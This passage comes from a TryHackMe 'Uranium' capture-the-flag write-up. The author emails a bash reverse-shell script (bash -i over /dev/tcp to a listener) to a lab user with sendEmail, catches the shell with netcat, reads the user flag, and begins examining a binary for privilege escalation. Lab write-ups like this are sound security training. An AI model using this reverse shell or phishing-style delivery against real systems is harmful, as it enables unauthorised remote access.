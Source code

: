 ```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/THM/uranium]
└──╼ $cat application 
#!/bin/bash
bash -c "bash -i >& /dev/tcp/YOUR IP/1234 0>&1"
```
Now let's send the mail using `sendEmail` a commandline based SMTP email delivery program.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/THM/uranium]
└──╼ $sendEmail -t hakanbey@uranium.thm -f vincida@mail.com -s 10.10.196.204 -u "Shell" -m "Please Open" -o tls=no -a application
Aug 31 00:37:26 v1nc1d4 sendEmail[96687]: Email was sent successfully!
```

Few seconds later I got a shell back on my netcat listener.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/THM/uranium]
└──╼ $nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.8.154.40] from (UNKNOWN) [10.10.196.204] 58254
bash: cannot set terminal process group (1738): Inappropriate ioctl for device
bash: no job control in this shell
hakanbey@uranium:~$
```
First flag can be found in the home directory.

```bash
hakanbey@uranium:~$ pwd
pwd
/home/hakanbey
hakanbey@uranium:~$ ls
ls
chat_with_kral4
mail_file
user_1.txt
hakanbey@uranium:~$ cat user_1.txt
cat user_1.txt 
thm{--REDACTED--}
hakanbey@uranium:~$
```

## Privilege Escalation

### kral4

In the home folder we can see a binary named `chat_with_kral4`, let's find out what it is..

```bash
hakanbey@uranium:~$ ls
chat_with_kral4
mail_file
user_1.txt
hakanbey@uranium:~$ file chat_with_kral4	
file chat_with_kral4 
chat_with_kral4: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3cf57a90a14e7b2771cb14cd9b1837fe9fa7495b, for GNU/Linux 3.2.0, not stripped
hakanbey@uranium:~$ ./chat_with_kral4
./chat_with_kral4
PASSWORD :
```
